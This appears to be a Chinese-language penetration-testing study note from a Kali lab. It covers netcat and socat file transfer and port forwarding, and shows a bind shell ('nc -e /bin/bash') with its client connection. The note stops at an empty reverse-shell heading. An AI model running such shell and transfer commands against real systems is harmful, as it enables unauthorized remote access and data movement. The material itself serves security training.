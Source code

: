 **nc 传输文件：**

```
kali@kali:~$ locate wget.exe
/usr/share/windows-resources/binaries/wget.exe
kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
(UNKNOWN) [10.11.0.22] 4444 (?) open


C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43459
^C
C:\Users\offsec>

```

```
nc  绑定命令行：
kali-pro:
nc -e /bin/bash -nvlp 4444
kali-full
nc -nv 192.168.61.132 4444
就可以进入kali-pro的bash环境
```

**socat**

**连接端口**

```
服务端：socat tcp-listen:4444 -
客户端：socat tcp:192.168.61.132:4444 - 
```

```
socat - TCP-LISTEN:8080,fork,reuseaddr      # 终端1 上启动 server
socat - TCP:localhost:8080                  # 终端2 上启动 client
```

`reuseaddr`：这个选项允许套接字重用处于“TIME_WAIT”状态的本地地址。这在需要在相同地址和端口上快速重新启动监听服务的情况下很有用。

**接收文件：**

**socat tcp4-listem:4444 open:2.tct,creat,append**

**发送文件：**

**cat 1.txt |socat - tcp4:192.168.110.129:333**

*端口转发*

**kali_full: **`socat tcp4-listen:8765,fork tcp4:192.168.110.1:80`

**每当有人访问kali_ful  tcp80端口的时候就将访问转发到192.168.110.1.80 上**

**fork 是每一个人访问就会新创建一个进程来监听一个会话，支持多个访问同时监听**

**socat 反弹shell**
